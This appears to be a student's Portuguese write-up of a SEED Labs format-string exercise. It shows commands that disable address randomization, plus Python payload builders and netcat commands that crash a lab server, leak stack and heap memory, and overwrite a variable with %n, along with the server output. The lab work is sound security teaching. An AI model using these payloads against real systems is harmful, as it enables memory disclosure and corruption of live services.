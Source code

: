 # Trabalho realizado na Semana #6

## **Seed Labs**

## Preparação

### Desativar <em>countermeasures<em>:

Desativar <em>Address Space Randomization<em>:

    sudo sysctl -w kernel.randomize_va_space=0

StackGuard e Non-Executable Stack podem ser desativadas na compilação.

## Tarefa 1

**Objetivo:** Forçar o crash do programa

**Conclusão** Para causar o crash do programa basta enviar "%s". Ao enviar o %s o programa vai procurar na stack uma string que não existe, causando um crash.

    echo %s | nc 10.9.0.5 9090

## Tarefa 2A

**Objetivo** Imprimir dados da stack do programa do servidor.

**Procedimento** Descobrir quantos %x são necessários para imprimir a variável que contém o nosso input.
Utilizando o seguinte código auxiliar python, podemos verificar que com 64 %x, o nosso input é impresso.
```python
    s = "AAAA" + "(%x)"*64
    fmt  = (s).encode('latin-1')

    with open('stack', 'wb') as f:
    f.write(fmt)
```

```sh
    cat stack | nc 10.9.0.5 9090
```
Output no server:

```
    server-10.9.0.5 | AAAA(11223344)(1000)(8049db5)(80e5320)(80e61c0)(ffcd8bf0)(ffcd8b18)(80e62d4)(80e5000)(ffcd8bb8)(8049f7e)(ffcd8bf0)(0)(64)(8049f47)(80e5320)(4d8)(ffcd8cf4)(ffcd8bf0)(80e5320)(935f720)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(5975b700)(80e5000)(80e5000)(ffcd91d8)(8049eff)(ffcd8bf0)(104)(5dc)(80e5320)(0)(0)(0)(ffcd92a4)(0)(0)(0)(104)(41414141)The target variable's value (after):  0x11223344
    server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

Como é possível observar pelo output do servidor, o nosso input, "AAAA", (41414141), é impresso, utilizando 64 %s.


## Tarefa 2B

**Objetivo** Imprimir dados da heap do programa do servidor.

**Procedimento** Sabendo que com 64 %x podemos ter acesso ao valor do nosso input, podemos colocar o endereço que pretendemos ler no inicio da string de input.

```py
    #Read from heap T2.B
    s = "%64$s"
    fmt  = (s).encode('latin-1')
    content[4:len(fmt)] = fmt
    number  = 0x080b4008 #secret message address
    content[0:4]  =  (number).to_bytes(4,byteorder='little')
    with open('heap', 'wb') as f:
    f.write(content)
```
A string de input será "%64$s\x08\x40\x0b\x08".

```
    cat heap | nc 10.9.0.5 9090
```
Output no server:
```
    server-10.9.0.5 |@
                    (A secret message
    server-10.9.0.5 | )
```
Como pretendido, a mensagem é impressa com sucesso.


## Tarefa 3A

**Objetivo** Alterar o valor da variável target.

**Procedimento** 

```py
    s = "%64$n"
    fmt  = (s).encode('latin-1')
    content[4:len(fmt)] = fmt
    number  = 0x080e5068 #target variable address
    content[0:4]  =  (number).to_bytes(4,byteorder='little')

    # "\x68\x50\x05\x08%64$n"
    with open('writeheap', 'wb') as f:
    f.write(content)
```

```
    cat writeheap | nc 10.9.0.5 9090
```

Output no server:
```
    server-10.9.0.5 | hThe target variable's value (after):  0x00000004
    server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

A string de input será:  **"\x68\x50\x05\x08%64$n"**.<br/>
Ao enviar "%64$n" na format string, o %n pega no endereço na posição 64 da stack e reescreve o seu conteúdo com o número de bytes impressos.
Isto faz com que seja escrito o valor 0x4 no endereço de target, que é o comprimento do próprio endereço.

## Tarefa 3B

**Objetivo** Alterar o valor da variável target para 0x00005000

**Procedimento**

```py
    content = bytearray(0x00 for i in range(N))
    s = "%64$20476x" + "%64$n"
    fmt  = (s).encode('latin-1')
    content[4:len(fmt)] = fmt
    number  = 0x080e5068 #targer variable address
    content[0:4]  =  (number).to_bytes(4,byteorder='little')
                    
    with open('writeheap2', 'wb') as f:
    f.write(content)
```

A string de input será: **"\x68\x50\x05\x08%64$20476x%64$n"**. <br>
O número de bytes escritos que queremos será 0x5000 em decimal: 20480.
Ao utilizar "%64$20476x" adicionamos 20476 caracteres vazios, que somando com o comprimento do endereço de memória, que é 4, obtemos o número de bytes pretendido.
Ao enviar "%64$n" na format string, o %n pega no endereço na posição 64 da stack e reescreve o seu conteúdo com o número de bytes impressos.

```
    cat writeheap2 | nc 10.9.0.5 9090
```

```
    server-10.9.0.5 | h



    ...



    80e5068The target variable's value (after):  0x00005000
```
